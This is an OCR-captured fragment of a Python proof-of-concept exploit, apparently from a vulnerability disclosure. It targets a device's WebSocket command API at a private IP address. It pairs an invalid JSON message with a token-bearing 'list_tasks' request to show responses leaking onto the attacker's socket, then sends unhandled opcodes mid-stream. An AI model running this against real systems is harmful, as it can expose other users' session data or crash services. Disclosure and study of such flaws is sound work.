 ```python
        except TimeoutError:
            break

    return data

def receive_data(client_socket, bytes):
    data = b''

    try: 
        return client_socket.recv(bytes)
    except socket.timeout:
        return data

def run_websocket_client(host, dst_port, path):
    client_socket = connect_to_server(host, dst_port)
    send_handshake_request(client_socket, host, path, dst_port)
    response = receive_handshake_response(client_socket)
    parse_handshake_response(response)
    return client_socket

if __name__ == "__main__":
    host = "192.168.90.100"
    port = 8080
    path = "/api/v1/products/current/messages/commands"

    # ** You have to change the token value with valid one so that you can use `list_tasks` commands **
    # ** Simply copy the whole JSON data from developer tools and paste right next to task_list_msg variable **
    task_list_msg = {"command":"list_tasks","request_id":"tbx3-f0052249-23dd-4b2c-8281-c7b8e20469e0","token":"redacted","tokenv2":{"token":"redacted","intermediate_certificate":"-----BEGIN CERTIFICATE-----\nredacted\n-----END CERTIFICATE-----\n"}}
    task_list_msg = json.dumps(task_list_msg,separators=(",", ":"))
    # Any character that doesn't comply with the JSON syntax would be ok
    vuln_msg = "{"

    while True:
        task_list_msg_socket = run_websocket_client(host, port, path)
        vuln_msg_socket = run_websocket_client(host, port, path)

        # Sending an invalid JSON message
        send_data(vuln_msg_socket, vuln_msg) 
        # You'll get an error message
        receive_all(vuln_msg_socket)
        # Sending a `list_tasks` command request which respond with multiple websocket packets
        send_data(task_list_msg_socket, task_list_msg) 
        # Normal response of `list_tasks` request
        receive_all(task_list_msg_socket)
        # Normal response of `list_tasks` request also duplicated on vuln_msg_socket
        receive_all(vuln_msg_socket)
        inputs = [vuln_msg_socket]

        try:
            # You must send Websocket data with an opcode that server cannot handle properly at the same time as you are receiving websocket messages 
            while True:
                readable, writeable, exceptional = select.select(inputs, [], [])
                for s in readable:
                    try:
                        d = s.recv(512)
                        # Except for 0x1, 0x2, 0x9, and 0xA, other opcodes are not handled correctly
```